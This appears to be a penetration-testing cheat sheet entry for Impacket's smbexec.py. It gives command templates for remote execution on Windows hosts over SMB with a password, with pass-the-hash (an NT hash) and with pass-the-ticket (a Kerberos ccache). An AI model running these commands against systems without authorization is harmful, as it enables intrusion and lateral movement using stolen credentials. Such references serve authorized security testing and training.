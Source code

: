 # smbexec (imp)

%  windows, impacket-exec, smb


## username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py '<domain>/<user>:<password>'@<ip>
```

## pth
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py -hashes :<nt_hash> <domain>/<user>@<ip>
```

## ptt
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
```
export KRB5CCNAME=<ccache_file>; smbexec.py -dc-ip <dc_ip> -target-ip <ip> -no-pass -k <domain>/<user>@<target_name>
```
